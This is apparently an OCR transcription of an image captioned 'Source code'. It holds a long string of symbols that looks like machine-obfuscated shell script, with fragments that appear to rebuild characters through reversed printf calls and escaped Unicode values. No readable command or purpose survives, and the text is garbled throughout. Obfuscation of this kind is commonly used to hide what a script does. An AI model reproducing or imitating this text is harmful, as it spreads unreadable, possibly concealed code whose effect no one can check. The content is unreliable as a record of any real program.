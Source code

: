 }6mCe172*"\Nm##*{$  @$   |    "}m{\_Q+eDk5#R`\/@{$"     }wI}\jrWk)\0[\//@{$     }^^*{$     m'"'"''"'"''"'"'57000000U\3700u\5'"'"'$'"'"''"'"'"d"m""    }@!{$   }i^=3)\s!\:)\J"\G_##*{$   |     }D_0>=nxELb:/VR3A#:Ye//@{$     },,*{$    '"'"'^"J!`*g]scH9P@,'"'"'     s%   ft""n\i""rp'"'"''"'"'    "}UWNWr~k.g6/=lEJ@-pL+/@{$"    }g{\%%<Ro&F#*{$   ($x\"   '"'"'fte6000000U\'"'"'$"i"'"'"''"'"''"'"'r'"'"'""'"'"'07000000U\'"'"'$    },,*{$    "}=&s;F>Lm^%%@{$"   &&  "}~@{$"    ")     }^^*{$  ))     ))d#71+)11#3-}~@{$*1#6"3"-((+)))C"}^@{$"#"5"5+)i#02--"3"1"}~@{$"#6(-(-(+)p"#"53+)0},*{$1#3"-"*"2"1"#"3((((    (($-]   )))d}(\-hUyzwM.S81##*{$#22+)2#44*$-*"0"1}^*{$#}~~*{$3((+)))5"6"#9+)I#64--01"#"7"-"(-(-(-)2"3"031#*$9+)98}xbS"\OgDC6yL,"\/Q4p02%Nd@ij<^m1I//*{$5#51-+a1}~@{$7}A$o1UY)\2#v##@{$5#11"}*;l;8-NesTO?g@9##@{$"-(((-(-(  [$   b-   t\'"'"''"'"''"'"'u'"'"''"'"''"'"'c"}~@{$"   }&sUdj0S2%%*{$  }KyXhMp_3gz%K(\am1/XqKSx5`\6b/@{$    }kBi#[\ys|G*}\]\(\bY%*{$     |    }^^*{$   }G7_Q2(\vE&&Y<IS%@{$  },,@{$  "m"u}t(\ZTDaD[\/"\%o@ga%i//@{$s\5}LI4$Z+J(\<pN4YBN/_SsbS@ZZ~(\H/*{$"d"'"'"''"'"'m}-=ezTlB"\L|YW{\j|/cq8E%;V;.)\Ef_H[\K//*{$   "}Jd_OYyq@#F1H?MIS/@{$"   }dl8S5Q)\X^c/@{$     },,*{$   |    },*{$    }~~*{$  },*{$  '"'"'CMyd|%=0:h#$;t;'"'"'  s%  f\'"'"''"'"''"'"'47000000U\'"'"'$'"'"''"'"'n"@$"'"'"'ir0700u\'"'"'$     }u_U]\Co@S%}\vb{\TKo/&FY%|YOk/*{$     }~*{$  }^^*{$  ($x\"    f}*{$'"'"''"'"'"t"""n\""irp   "}~@{$"  *$  }:6tTskZQ}\x_?Hv##*{$     &&    }sp!\qOfPHb>VY3m~c//@{$     }:V`\Aw:fr{\"\<}\%]\G%@{$